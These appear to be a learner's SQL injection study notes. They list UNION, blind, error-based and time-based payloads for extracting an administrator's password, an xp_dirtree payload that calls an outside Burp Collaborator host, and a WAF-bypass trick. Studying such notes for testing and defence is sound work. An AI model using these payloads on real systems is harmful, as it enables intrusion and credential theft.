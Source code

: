# SQL injection

basicaly a vulnerabily where you have an input value
that you can manipulate
and is insecurely send to the sql database
thus giving us access more access then we should have


## note
sometimes a + needs to be used in stead of spaces

## payloads explained

simplest is:
test' OR 1=1 --

this completes the query with test
but then closes it
add the OR operator
1=1 making any query correct
-- commenting out the rest of the line

sometimes payloads dont just work,
fe in the url they sometimes could need to be url encoded to work

## union selects

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
using this we can determine if there can be selected more collums

after determining the collumns
we can use the following to search for a particular string
' UNION SELECT 'searchstring',NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
' UNION SELECT NULL,NULL,'searchstring'--

union abuse is using union statement
to merge another table
' UNION SELECT user,password FROM users--

if there arent enough collumns
you could concatenate another collumns
' UNION SELECT username || '~' || password FROM users--
|| '~' || this is a seperator in an oracle database

## gathering extra info
using builtin stuff,
combining with for example a UNION

Database type           Query
Microsoft, MySQL        SELECT @@version
Oracle                  SELECT * FROM v$version
PostgreSQL              SELECT version()

## schema
most databases have a table with the schema
this is a table containing info of the tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

first gathering the collumns
' ORDER BY 2--

then gather the tables
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

then gathering the columns of the table
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'foundtablename'--
or if being uncertain this reveals all collumns with table name to search in
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--

after finding the collumn names we can use these and the specific table to gather info we need to know
' UNION SELECT columnname1,columnname2 FROM tablename--

## blind injection
is more difficult,
it does not directly show the content of the query
but it changes a response fe showing a welcome message

fe
xyz' AND '1'='1
xyz' AND '1'='2
the first would show the welcome message
but the second would not bcs it would be false

after determining the difference you'd need to check the password 1by1
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
if its true the first character fo the password is greater than m
thus trying the next its half we can narrow down the correct password
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

abcdefghijklmnopqrstuvwxyz0123456789

ofc its tedious to do this for longer passwords
thus using chatgpt you can write a quick "bruteforcer"
see "sql_blind_test.py"

## error based
even harder

like the blind injection
we get another output in the errors
thus making it throw a different error based on if anything is true or false

first testing
'
gives an error
showing us we get a syntax error
''
shows its fixed showing no error

givesn another error
'||(SELECT '')||'

fixes the error
'||(SELECT '' FROM dual)||'

trying a nonexistant table gives an error
'||(SELECT '' FROM tryingannonexistanttable)||'

trying to get some users
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'


when recieving an error we get the error
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

if we find a user we can determine the password length
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

then checking the char at each location
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

ofc this will take to long to do
thus we write ask gpt to ask make a script
see "sql_error_test.py"


verbose erroring
sometimes a usefull error is returned like syntax error ' on line...
trying with a cast we could maybe get useful data out oof it
CAST((SELECT example_column FROM example_table) AS int)

'
this gave an error
'--
fixed the error
' AND CAST((SELECT 1) AS int)--
another error
' AND 1=CAST((SELECT 1) AS int)--
fixed the previous error
now inserting our generic select
' AND 1=CAST((SELECT username FROM users) AS int)--
we got an error that showed our query being cut of so removing the part of the original cookie fixed this
' AND 1=CAST((SELECT username FROM users) AS int)--
errorr says to much rows
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
errorr now says the first username
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
and just changing to get the password retrieves us the credentials

## time based sql
basicaly the sql executes but doesnt return anything different
but we could try to insert a delay based on if something is true
as the webapps are executed synchronously we could manipulate this
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
'%3BSELECT+CASE+WHEN+(YOUR-CONDITION-HERE)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

first testing the different responses
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
then getting a username from a table
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
then getting its password length
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>50)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
and then getting bruteforcing the password
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

ofc this is tedious and we let our buddy gpt
write a script for it "sql_timed_test.py"

## out-of-band (OAST) technique
if a different thread is used to execute the query
then we could try to get info by performing a network query to a server we control

most time dns could be used to extract data bcs dns most times doesnt get blocked bcs its essential for normal operations
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

sometimes not only a string is used
but it could be hidden in xml or json

fe xml
1+1
1 UNION SELECT username || '~' || password FROM users
got us detected by a waf
<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
abusing a feature of xml
gets us bypassing it

## stored sql
is saving the sql input somewhere for later use
then later gets abused

## how to prevent
use prepared statements,
parameter based querys,
instead of string concatenations,
prohibit a list of words that can exist in fields


## payloads

stored in the root folder: payloads_sql.lst

https://portswigger.net/web-security/sql-injection/cheat-sheet